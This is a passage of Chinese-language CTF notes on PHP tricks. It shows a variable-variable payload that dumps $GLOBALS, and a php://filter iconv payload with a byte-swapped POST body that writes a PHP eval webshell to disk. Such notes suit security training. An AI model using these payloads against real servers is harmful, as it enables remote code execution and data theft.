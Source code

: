 看到一堆过滤的头大，但是看到`getFlag`函数当中有两个`$$`，所以对于该题，只要把$GLOBALS赋值给v2，然后v2再赋值给v1,即可将全部变量输出

```
payload：
v1=ctf&v2=GLOBALS
```

## php://filter的一些常见配合编码

> payload:
> file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
> post:contents=?<hp pvela$(P_SO[T]1;)>?
>
> 这种是将字符两位两位进行交换